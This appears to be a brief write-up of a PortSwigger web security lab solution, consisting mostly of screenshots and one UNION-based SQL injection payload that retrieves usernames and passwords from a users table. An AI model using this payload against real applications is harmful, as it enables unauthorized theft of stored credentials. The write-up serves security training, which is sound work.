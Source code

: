 ## Lab Description
![image](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/2b0983a8-a516-4c38-9b41-4395124a003f)

### Solution

`Use the following payload to retrieve the contents of the users table:'+UNION+SELECT+username,+password+FROM+users--`

![1](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/143ff159-b91f-4d12-a3f6-de3752f52a9d)

> You will get Username and Password.

![2](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/0436a047-f1df-4f30-966d-d8af98c26ec2)

![3](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/1d048092-b1fb-48ef-8bf4-b32e134fd3c8)

